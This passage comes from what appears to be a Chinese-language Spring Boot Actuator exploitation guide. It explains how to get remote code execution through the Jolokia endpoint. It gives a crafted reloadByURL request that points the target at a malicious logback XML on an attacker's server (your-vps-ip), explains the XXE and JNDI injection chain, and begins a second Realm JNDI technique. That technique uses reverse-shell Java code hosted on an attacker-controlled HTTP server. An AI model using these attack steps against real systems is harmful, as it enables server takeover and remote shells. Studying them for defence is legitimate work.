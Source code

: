 **步骤六：从外部 URL 地址加载日志配置文件**

> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```

**漏洞原理：**

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

**漏洞分析：**

​ [spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

**漏洞环境：**

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```

#### 0x05：jolokia Realm JNDI RCE

**利用条件：**

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
* 目标可以请求攻击者的服务器（请求可出外网）
* 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121(RMI)，但相关环境可绕过

**利用方法：**

**步骤一：查看已存在的 MBeans**

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。

**步骤二：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`。

**步骤三：托管 class 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
